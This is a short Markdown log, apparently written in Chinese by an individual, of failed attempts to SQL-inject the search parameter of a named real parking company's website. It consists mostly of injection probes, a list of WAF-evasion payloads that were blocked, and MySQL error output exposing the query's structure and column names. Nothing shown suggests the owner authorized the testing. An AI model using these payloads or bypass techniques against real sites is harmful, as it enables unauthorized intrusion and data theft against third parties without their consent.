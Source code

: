 ```yaml
---
title: SQL Injection inan Failed
description: SQL Injection inan Failed
last_update:
  date: "2025-08-27T08:00:00+08:00"
---
```


## 前言

- 目標: https://www.inan-parking.com.tw/search.php?keyword=
- Forbidden 大概三次就會鎖 IP，看來是場硬仗

## 測試流程

1. `keyword=%27`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' or a.ServiceTel like '%'%' or a.ServiceAddr like '%'%')' at line 1
```

2. Forbidden Payloads

```
keyword=%%27)--%20123
keyword=%%27)--
keyword=%27/**/OR/**/%27%%27=%27
keyword='/**/OR/**/'tel%'='tel
keyword='--
keyword='/**/%26%26/**/'h%'='h%
keyword='/**/%7C%7C/**/'h%'='h%
keyword='/**/||/**/'h%'='h%
keyword='/**/+/**/'h%'='h%
keyword='/**/IN/**/(SELECT/**/'h')/**/
keyword=%27/**/XOR/**/%27h%%27=%27h%
```

```
Forbidden
You don't have permission to access this resource.

Additionally, a 403 Forbidden error was encountered while trying to use an ErrorDocument to handle the request.
```

3. `keyword=%%27)`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%')%' or a.ServiceAddr like '%%')%')' at line 1
```

4. `keyword='/**/OR`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' or a.ServiceTel like '%'/**/OR%' or a.ServiceAddr like  '%'/**/OR%')' at line 1
```

5. `keyword='/**/OR/**/`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' or a.ServiceTel like '%'/**/OR/**/%' or a.ServiceAddr like  '%'/**/OR/**/%')' at line 1
```

6. `keyword='/**/AND/**/`

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' or a.ServiceTel like '%'/**/AND/**/%' or a.ServiceAddr like  '%'/**/AND/**/%'' at line 1
```
